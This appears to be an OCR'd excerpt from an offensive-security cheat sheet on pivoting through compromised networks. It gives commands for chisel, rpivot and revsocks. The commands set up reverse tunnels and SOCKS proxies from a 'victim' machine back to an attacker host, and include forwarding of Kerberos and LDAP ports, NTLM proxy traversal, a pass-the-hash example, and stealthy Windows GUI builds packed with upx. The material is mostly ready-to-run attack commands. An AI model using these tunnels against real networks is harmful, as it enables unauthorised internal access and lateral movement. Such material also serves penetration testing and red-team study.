 ## chisel


```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```


```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```